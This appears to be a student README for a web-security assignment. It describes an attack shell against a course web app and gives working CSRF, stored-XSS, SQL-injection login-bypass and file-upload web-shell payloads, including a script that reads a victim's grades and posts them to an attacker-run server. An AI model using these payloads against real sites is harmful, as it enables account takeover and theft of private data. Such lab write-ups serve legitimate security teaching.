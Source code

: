 * Summary
This is the readme file for FLAG.

* Dependency
Running the attack requires python installed with the following
packages:

- torando
- cmd2
- bs4

All of them can be easily installed through pip.

* How to run the attacks
First, open the shell by 

#+BEGIN_SRC bash
python shell.py
#+END_SRC

Then, login as the victim by typing

#+BEGIN_SRC 
>>> victim <victim_name>
#+END_SRC

which will open up firefox, and you may login as the victim (Please
login as the victim_name as you input, otherwise things might not work).

All the attacks will work against the logged in victim.

* Distinct Vulnerabilities 

** Cross-Site Request Forgery
To perform a csrf, I create a page in which there is an auto-submitted
form to the target url (in this case
"http://35.186.175.202/edit-profile.php"), along with parameters such
as "about_me". I also set its target to an invisible iframe in the
same page so that when victim clicks the bait link, he/she will not
notice page redirection.

To enable auto-submit, I used embedded javascript in the "onload"
attribute of "<body>":

#+BEGIN_SRC html
    <body onload="document.forms[0].submit();">
#+END_SRC

The shell command for this attack is "csrf", upon entered it will fire
up firefox with the attacker's site. Visiting the site when you have
logged in as the victim will change the victim's profile to whatever
you specified.

*** How to run the attack

#+BEGIN_SRC 
>>> csrf <profile_message>
#+END_SRC

** Stored XSS
To perform stored XSS, I created a page which will store arbitrary
code we want to inject. In shell.py we inject the following javascript
snippet to the page "/profile.php":

#+BEGIN_SRC javascript
<script>alert('You are XSS-ed!')</script>
#+END_SRC

This will cause any visit to "/profile.php" to run the snippet and
pops up alert.

*** How to run the attack

#+BEGIN_SRC 
>>> sxss
#+END_SRC

** Cross-Site Data Access (xsda)
I used SXSS as a stepstone for xsda. First, I inject the a javascript
snippet in the comment section of the victim's profile.

#+BEGIN_SRC javascript
<script>
var xhr = new XMLHttpRequest();
xhr.onload = function() {{
    console.log(xhr.response);
    var sender = new XMLHttpRequest();
    sender.open('POST', 'http://localhost:{port}/grades', true);
    sender.send(xhr.response);
}}
xhr.open('GET', '/list-grades.php', true);
xhr.send(null);
</script>
#+END_SRC

Which will initiate an XMLHttpRequest to "/grades" and fetch all the
grades of the victim. Upon receiving the html containing the grade
table, it initiate another XMLHttpRequest to send all the grades to a
local server we set up through a certain port.

Next, we visit the local server's page and we shall see the grade of
the victim.

*** How to run the attack

#+BEGIN_SRC 
>>> xsda
#+END_SRC

Note: the web server we set up is running in a thread, so feel free to
type enter and continue using the shell.

** SQL Injection
I discovered a SQL injection vulnerability in several places. One of
the most severe one is in the login page.

The server side does not properly escape special characters like
double quotes and dashes, allowing attackers to perform SQL injection.

Specifically, we can login as any user using the following using name

#+BEGIN_SRC 
<username>";--
#+END_SRC

where <username> is the username you want to login as. Additionally,
we can use the following to login as the first person in the users
database.

#+BEGIN_SRC 
" OR 1 = 1; --
#+END_SRC

This causes the SQL query in the server side to retrieve all the user
records. And when it wants to access the user info, it uses 

#+BEGIN_SRC php
$users[0]
#+END_SRC

which gives us the first user -- Roberto.

I should mention this later but using reverse-shell we can find the
exact code that causes this vulnerability. It's in
"/var/www/include/db.php:14:15", "/var/www/include/db.php:38", and triggered by
"/var/www/include/user.php:118:122".

#+BEGIN_SRC php
$args = array_map(array($this, 'quote'), $args);
$query = str_replace(array_keys($args), array_values($args), $query);
...
private static function quote($str)
{
    return '"' . $str . '"';
}
#+END_SRC

Here the function quote simply surround $str with two double quotes
without any sanitization whatsoever, which causes the vulnerability.

*** How to run the attack

#+BEGIN_SRC 
>>> sql_injection
#+END_SRC

This will gives us a page with a ready-to-inject form. We can click
the inject button and it will gives us the main page of Roberto.

** File Upload
In my own opinion, this is by far the most dangerous vulnerability. I
noticed that the server will only allow users to upload pdf
files. However, the way it checks whether it's a pdf file is
problematic.

Upon experiment, I found that it only checks whether the file
extension contains the string "pdf". However, a file can have a long
extension with several dots in between. For example, one can upload a
file "evil.pdf.php" to the server and it will be accepted. Upon next
visit, apache server detects that the actual file type is php, so it
will execute the file as a php script. This allows us to execute
arbitrary program with the same priviledge as the web server itself.

I uploaded a phpbase script as an assignment and the server accepts
it. Using it I can download all the server scripts for further
investigation which allows the last attack (i.e. bad password hashing)
possible.



*** How to run the attack

#+BEGIN_SRC 
>>> fileupload
#+END_SRC

Then, we choose "phpbash.pdf.php" and then submit. Next, we can click
the button below to visit the file and use the phpbash.

** Insecure Direct Object Reference

** Session Fixation

** Bad Password Hashing

